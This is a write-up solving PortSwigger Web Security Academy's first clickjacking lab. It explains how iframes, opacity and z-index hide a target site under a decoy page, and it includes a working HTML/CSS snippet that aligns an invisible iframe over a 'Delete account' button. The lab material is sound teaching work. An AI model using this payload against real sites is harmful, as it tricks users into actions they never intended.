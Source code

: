 # Portswigger Web Security Academy | Clickjacking Lab #1

Hi everyone — today we’ll solve the first **Clickjacking** lab from the PortSwigger Web Security Academy. Let’s get started!

### What’s Clickjacking ?

To understand clickjacking, first we need to know what an `<iframe>` element is. An `<iframe>` lets you embed one website inside another. This is how Google Maps, YouTube videos, and similar services are commonly embedded on legitimate sites. If you want users to watch a video or view a map without leaving your site, you hit the _share_ button, choose _embed_, and paste the provided code into your page. That embed is usually an `<iframe>` that loads content from another origin while still appearing inside your page.

![iframe](./images/iframe-1.png)

Clickjacking abuses this tag to trick users. An attacker embeds the target site in an `<iframe>` on a page they control, then reduces the iframe’s opacity so its content becomes invisible. They modify their own page so that when users click visual elements on the attacker’s page, they’re actually clicking corresponding controls in the invisible iframe (for example, a “Delete account” button on the victim site). The user believes they’re interacting with the attacker’s page, but in reality they’re interacting with the target site inside the iframe.

Attackers often rely on the CSS `z-index` property to ensure the invisible iframe sits above the attacker’s visible elements, so clicks are forwarded to the target site. The attack typically follows these steps:

1.  Embed the target website using an <iframe> on an attacker-controlled page.
2.  Adjust the attacker page so visible elements line up with the interactive elements inside the iframe.
3.  Set the iframe’s z-index higher than the attacker’s visible elements so the iframe receives clicks.
4.  Lower the iframe’s opacity (for example, near zero) so it appears invisible to the user.

And that’s the essence of clickjacking. Here’s an illustration from PortSwigger to make it clearer — take a look, then start solving the lab!

![Portswigger](./images/portswigger-1.png)

[https://portswigger.net/web-security/clickjacking](https://medium.com/r/?url=https%3A%2F%2Fportswigger.net%2Fweb-security%2Fclickjacking)

### Lab Desc

![Lab Desc](./images/lab-desc-1.png)

This lab is straightforward: create HTML that aligns an iframe over the target site’s **Delete account** button and cause a simulated user to click it. You’ll need some CSS to position elements; the rest is trial and error until alignment is correct.

Here’s an example HTML snippet (the iframe is given very low opacity so it’s mostly invisible):

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:490px;
        left:60px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://0a1a00700304e6248073490000740044.web-security-academy.net/my-account"></iframe>
```

![Exploit](./images/exploit-1.png)

Adjust the `top` and `left` values (and the iframe size) until the visible “click” area lines up with the Delete button inside the iframe.

That’s all for this lab — thanks for reading, and good luck!